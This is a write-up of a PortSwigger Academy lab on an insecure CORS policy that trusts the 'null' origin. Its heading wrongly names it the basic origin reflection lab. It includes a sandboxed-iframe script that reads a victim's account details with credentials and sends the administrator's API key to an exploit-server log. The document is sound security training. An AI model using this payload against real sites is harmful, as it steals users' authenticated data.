 # CORS - vulnerability with basic origin reflection 

## 📌 Lab Details
- **Title**: CORS vulnerability with basic origin reflection
- **Difficulty**: Apprentice
- **Category**: Cross-Origin Resource Sharing
- **Lab URL**: https://portswigger.net/academy/labs/launch/9d294029d336d1a8cefb9d84577fc92304467e91f4f9918e74b50be2c561db79?referrer=%2fweb-security%2fcors%2flab-null-origin-whitelisted-attack

## 🔍 Summary
This lab exploited **insecure CORS trusting the** `"null"` **origin**, allowing you to use a **sandboxed iframe** to send a credentialed `XMLHttpRequest` cross-origin and steal the **administrator’s API key**.

## 🛠 Steps to Solve
1. Use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to **Burp Repeater** and resubmit it with the added header: `Origin:null`.
4. Observe that the `null` origin is reflected in the `Access-Control-Allow-Origin` header.
5. Inject the payload on the **Exploit** server:
   ```sh
   <iframe sandbox="allow-scripts" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+this.responseText;
    };
    </script>"></iframe>
   ```
6. Deliver the exploit to the victim and access the log to find the `API` key.

## 📖 Key Takeaways
- CORS misconfiguration trusting `"null"` enables attacks from sandboxed iframes.
- A **sandboxed iframe** (`sandbox="allow-scripts"`) produces a "null" origin.
- `withCredentials: true` leaks authenticated data cross-origin if `"null"` is allowed.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/d17855c7-cbc6-4268-b41b-59bbbe4296c2" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/80b0b679-4a93-40e2-8daf-d987428ed83c" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/2f48639b-5ee6-4bc6-a65b-2ad2496d7dae" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/3150e08c-e37e-4588-a1e4-680dfdf1f549" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/d1388595-d7e5-4b82-9f92-c429c2e9d7a8" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/b96e9780-0933-44c7-b0e1-ec6647c711a4" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/9fb3a8c5-3253-4e13-88f8-6dbd27276efd" />
